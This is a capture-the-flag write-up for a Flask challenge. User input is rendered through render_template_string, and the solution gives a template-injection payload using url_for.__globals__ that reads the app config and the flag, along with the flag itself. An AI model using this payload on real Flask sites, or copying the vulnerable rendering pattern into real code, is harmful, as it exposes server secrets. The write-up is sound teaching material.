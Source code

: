 # bro_visited_his_site

**Difficulty**: Easy

**Points earned**: 343

**Description**:

```
bro stored his secrets in the flask app config

note: this is not /app/flag.txt - that's bro_visited_his_site_2

10 point hint: attack type

20 point hint: writeup for similar problem

Author: arepi

https://bro-visited-his-site.jellyc.tf/
```

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

**Solution**: 

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
```

I did some Googling and found a similar challenge: https://ctftime.org/writeup/11036.

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the URL bar.

![bro_visited_his_site solution](./images/bro_visited_his_site_sol.png "bro_visited_his_site solution")

**Flag**: `jellyCTF{keep_on_piping_jelly}`